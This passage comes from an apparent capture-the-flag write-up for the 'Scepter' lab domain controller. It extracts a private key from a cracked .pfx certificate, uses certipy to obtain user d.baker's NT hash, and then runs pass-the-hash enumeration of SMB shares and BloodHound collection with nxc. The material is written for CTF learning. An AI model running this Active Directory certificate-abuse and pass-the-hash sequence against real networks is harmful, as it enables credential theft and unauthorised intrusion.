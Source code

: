 ">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;">The passphrase is the password that we cracked with john, but for the Export Password we just need to press Enter, without any password.</p>

  <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;">openssl pkcs12 -in cert.pfx -nocerts -out priv-key.pem</code></pre>
</div>

Now we can retrieve **baker hash**

```bash
➜ rdate -n 10.129.28.117

➜ certipy auth -pfx baker.pfx -dc-ip 10.129.28.117

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: d.baker@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18...ce
```
## ESC9 to PSRemote on the machine

Nice, now let's enumerate :

```bash
➜ nxc smb scepter.htb -u 'd.baker' -H '18...ce'
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [+] scepter.htb\d.baker:18...ce

➜ nxc smb scepter.htb -u 'd.baker' -H '18...ce' --shares
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [+] scepter.htb\d.baker:18...ce
SMB         10.129.28.117   445    DC01             [*] Enumerated shares
SMB         10.129.28.117   445    DC01             Share           Permissions     Remark
SMB         10.129.28.117   445    DC01             -----           -----------     ------
SMB         10.129.28.117   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.28.117   445    DC01             C$                              Default share
SMB         10.129.28.117   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.28.117   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.28.117   445    DC01             SYSVOL          READ            Logon server share

➜ nxc ldap scepter.htb -u 'd.baker' -H '18...ce' --bloodhound --dns-tcp --dns-server 10.129.28.117 -c all
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
LDAP        10.129.28.117   389    DC01             [+] scepter.htb\d.baker:18...ce
LDAP        10.129.28.117   389    DC01             Resolved collection methods: trusts, psremote, rdp, localadmin, session, acl, dcom, group, objectprops, container
LDAP        10.129.28.117   389    DC01             Done in 00M 05S
```